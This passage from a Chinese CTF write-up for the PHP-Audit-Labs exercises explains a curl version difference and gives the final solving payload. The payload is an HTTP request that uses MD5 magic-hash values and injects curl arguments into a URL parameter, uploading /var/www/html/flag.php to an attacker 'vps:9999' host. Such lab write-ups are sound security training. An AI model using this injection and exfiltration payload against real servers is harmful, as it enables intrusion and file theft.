 这里应该是和 **curl** 版本有关系，我在 **7.54.0 ** 下没有测试成功。

![21](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/7.png)

题目中的 **curl** 版本是 **7.19.7** 

![22](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/8.png)

根据猜测，可能在是新版本中，先会执行 **curl http** 的操作，但是由于在后面增加了,例如 **http://127.0.0.1，** 但是curl无法找到这样的文件，出现404。出现404之后，后面的提交文件的操作就不进行了，程序就退出了。这样在vps上面就无法接受到文件了。

### 解题payload：

所以这题最后的 **payload** 是这样的。

```http
POST /index.php?flag=QNKCDZO&hongri=s878926199a&url=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999 HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=om11lglr53tm1htliteav4uhk4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

_GET[flag]=QNKCDZO&_GET[hongri]=s878926199a&_GET[url]=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999
```

